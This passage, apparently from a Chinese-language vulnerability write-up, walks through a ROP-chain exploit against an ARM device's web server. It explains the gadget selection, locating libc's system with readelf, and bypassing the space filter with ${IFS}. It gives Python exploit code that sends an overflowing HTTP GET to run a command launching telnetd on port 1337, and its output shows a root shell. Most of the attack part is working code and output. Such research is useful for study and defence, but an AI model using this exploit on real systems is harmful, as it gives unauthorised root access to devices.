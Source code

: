 第一个gadget将R3设置为一个可控的值，并跳转到下一个地址。第二个gadget（mov r0, sp; blx r3  
）将栈指针移动到R0（system  
函数的第一个参数），并跳转到R3，而我们之前已经将R3设置为system  
函数的地址。  
  
函数地址，例如system  
函数的地址，可以使用readelf -s  
命令来确定。不过，需要记住的是，我们需要将相应二进制文件或库的基地址添加到输出中看到的偏移量上。这样在构建ROP链时，才能确保使用正确的地址。  
```
$ readelf -s libc.so.0 | grep system
   659: 0003dfc0    80 FUNC    GLOBAL DEFAULT    7 svcerr_systemerr
   853: 000535e8   116 FUNC    WEAK   DEFAULT    7 system
   864: 000535e8   116 FUNC    GLOBAL DEFAULT    7 __libc_system

```  
  
正如前面所了解到的，有效载荷中不能包含任何空格。不过，我发现可以使用广为人知的 ${IFS}  
 策略轻松绕过这一限制 。  
  
把所有内容整合起来，我得到了一个大致如下的漏洞利用代码（完整源代码见文末）：  
```
def main():
    maps = fetch_maps()
    libc, libc_base = parse_maps(maps)

    payload = b""
    payload += 304 * b"A"
    payload += pack("<I", libc_base + GADGETS[libc][0])  # pop {r3, pc}
    payload += pack("<I", libc_base + GADGETS[libc][1])  # system
    payload += pack("<I", libc_base + GADGETS[libc][2])  # mov r0, sp; blx r3

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((HOST, PORT))
        sock.send(b"GET /" + payload + CMD.replace(b" ", b"${IFS}") + b";.mns.cab HTTP/1.1")
        sock.send(b"\\r\\n\\r\\n")

        print(sock.recv(1024))

```  
  
由于在没有远程交互方式的情况下，使用 /bin/sh  
 作为命令并没有太大用处，所以我使用 telnetd  
 在1337端口启动了一个本地Telnet服务器。这样我就可以连接并获取一个Shell  
```
kali@kali:~$ python exploit.py 192.168.2.2 80
connecting to 192.168.2.2:80
libc.so.0 found at 0xf7974000
b'HTTP/1.0 200 OK\\n'
kali@kali:~$ telnet 192.168.2.2 1337
Trying 192.168.2.2...
Connected to 192.168.2.2.
Escape character is '^]'.
# echo $USER
root
# ls
bin

```  
  